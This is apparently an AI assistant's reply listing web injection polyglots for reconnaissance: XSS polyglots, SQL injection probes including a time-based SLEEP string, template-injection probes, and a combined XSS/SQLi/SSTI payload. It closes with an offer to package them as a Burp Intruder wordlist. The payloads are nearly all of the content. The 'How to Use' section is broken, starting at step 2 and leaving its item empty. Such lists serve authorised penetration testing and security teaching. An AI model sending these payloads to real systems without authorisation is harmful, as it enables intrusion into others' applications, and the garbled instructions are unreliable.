 

---

### 🧩 1. XSS Polyglots

#### **Basic XSS Polyglot**

```
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'
```

#### **Super-Polyglot by 0xSobky**

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

---

### 🧠 2. SQLi Polyglots

#### **Multi-Quote SQL Probe**

```
AND 1=0 --' AND 1=0 --" AND 1=0 --
```

#### **LightOS Polyglot**

```
OR 1#"OR"'OR''='"="'OR''='
```

#### **Sleep Polyglot**

```
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

---

### 🧪 3. SSTI / CSTI Polyglot

#### **Early SSTI Probe**

```
${{7*2}}${{7*2}}
```

#### **Extended SSTI with HTML Injection**

```
"><img src=x onerror=alert(1)>{{7*2}}<svg/onload=console.log(2)>
```

---

### 🧬 4. Combined XSS + SQLi + SSTI Polyglot (Advanced)

```
'"><svg/onload=alert(1)> OR 1=1 -- ">{{7*2}}
```

---

### ⚙️ How to Use

2. **Observe output**:
    

---

### ✅ TL;DR

- **SSTI polyglots** use math or code directives to detect template rendering early.
- **Combined payloads** let you detect multiple vulnerability types with a single request—speeding up triage and recon.

Let me know if you'd like these compiled into a Burp Intruder wordlist or formatted for automated scans!